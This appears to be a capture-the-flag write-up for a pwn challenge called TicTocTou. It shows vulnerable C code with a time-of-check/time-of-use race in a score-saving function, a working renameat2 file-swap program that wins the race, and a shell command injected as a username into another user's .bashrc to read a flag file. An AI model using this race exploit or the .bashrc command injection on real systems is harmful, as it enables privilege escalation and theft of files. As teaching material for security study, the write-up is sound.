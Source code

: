 # TicTocTou

### Description
Challenge: [TicTocTou](./tictoctou.c)                                                             <br>
Difficulty: Medium                                                                              <br>
Category: Pwn                                                                                   <br>
Description:                                                                                    <br>
	Have you ever played the game named TicTocTou? Yeah, me too, I used to play it a   <br>
	lot during boring classes in primary school, because, you know, playing games    <br>
	changes your time's perception and the class ends faster!              <br>
Author's note:                                                                                  <br>
	Your goal is to privesc to ctf-cracked in order to read the contents of flag.txt <br>
	Run 'tictoctou' and start pwning, source code is available for this challenge  <br>
	under /home/ctf-cracked/, let's do it whitebox!                 <br>
	PS: ctf-cracked often logs in to the system, maybe this will help.        <br>
	gl & hf. - hfz                                   <br>
SSH access: ssh -p2222 ctf@3.91.133.232                                                         <br>
Password : shellmates                                                                           <br>
![alt challenge](./tictoctou.jpeg)

### Playing with the binary
The binary is a typical tic-tac-toe game, you play to a bot that uses randomness for it's moves, When I played the game<br>
I noticed an interesting feature where the player enters a username and a filepath and he can save the score<br>
In condition that the player owns that file<br>
```
shell WON against brainless bot on 2020-09-14 at 16:46:41! Not surprising however.
################# Game stats #################
# Human (O) plays on cell 5                  #
# Brainless Bot (X) plays on cell 6          #
# Human (O) plays on cell 1                  #
# Brainless Bot (X) plays on cell 3          #
# Human (O) plays on cell 9                  #
##############################################
```
Then when I did the static analyses, I found a race condition in the save_stats() function 
```C
int save_stats(char *nickname, char *filepath, int result, int num_moves) {
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);

    // Check that the real user have write permissions on that file
    if (access(filepath, W_OK) != 0) {					// <== Time-Of-Check
        perror("access check failed");					
        return -1;							
    }									
									
    // Since the real user can write to that file, we proceed safely	
    FILE* f = fopen(filepath, "a");					// <== Time-Of-Use
    if (f == NULL) return -1;

    switch (result){
        case 0:
            fprintf(f, "%s TIED against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Still a boomer...\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 1:
            fprintf(f, "%s WON against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Not surprising however.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 2:
            fprintf(f, "%s LOST against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! What a shame to lose against pseudo randomness, go play minecraft.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
    }

    fprintf(f, "################# Game stats #################\n");
    for (int j = 0; j < num_moves; j++) {
        if (j % 2) {
            fprintf(f, "# Brainless Bot (X) plays on case %c          #\n", history[j]);
        } else {
            fprintf(f, "# Human (O) plays on case %c                  #\n", history[j]);
        }
    }
    fprintf(f, "##############################################\n\n");

    fclose(f);

    return 0;
}
```
We can abuse the race condition to append text to a file owned by ctf-cracked, but how can we get the flag?<br>
In the description there is a hint that the user ctf-cracked logs in frequently, so we can enter shell commands as username<br>
and append it to ctf-cracked .bashrc file, then when he logs in, the commands get executed and we get the flag<br>
To win the race condition I created an empty file and a symbolic link to the .bashrc file, then I used a syscall wrapper that<br>
I remembered from watching a Liveoverflow video to exchange the names of two files<br>
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
        while (1)
        {
                syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
        }
        return 0;
}
```
I executed the rename program and played the game (a couple of times until the race condition worked) and entered</br>
"cat /home/ctf-cracked/flag.txt > /tmp/shellc0d3/flag.txt" as a username, after few seconds the user logs in and we get the flag</br>
# Flag

shellmates{T1c_T0c_T1C_tOc_@bus1nG_th3_cl0ck_4_fUn_aNd_pr0f1t}
